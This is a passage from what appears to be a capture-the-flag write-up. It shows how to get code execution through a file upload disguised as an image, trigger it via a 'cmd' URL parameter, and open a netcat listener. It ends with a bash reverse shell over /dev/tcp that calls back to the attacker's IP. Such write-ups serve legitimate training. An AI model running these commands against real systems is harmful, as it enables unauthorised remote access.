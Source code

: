 As can be seen, the request identified it as an image. Send the request and visit the _photos_ page.

![](../images/max/1176/1*R0X7BcN13VvuUWj2v81jLw.png)

We can see that our image has been uploaded. Right click and select _View Image_. This executes our code. Next, add the _cmd_ parameter to the URL and run the _whoami_ command.

![](../images/max/690/1*ZEnOAi-k21jM9z9VvG1iTw.png)

We have code execution! Now, let’s get a reverse shell. First, set up a listener on the attack machine.

```text
nc -nlvp 1234
```

Then run the _whoami_ request again and send it to _Repeater._ You will have to disable the “File extension” in _Proxy_ &gt; _Options_ &gt; _Intercept Client Requests_ in order to intercept the request.

Next, visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and add the bash reverse shell in the ‘_cmd_’ parameter.

```text
bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'
```

Make sure to URL encode it before you send the request \(Ctrl + U\).

![](../images/max/763/1*l2rqNKH-wB3YvkbElAG34g.png)
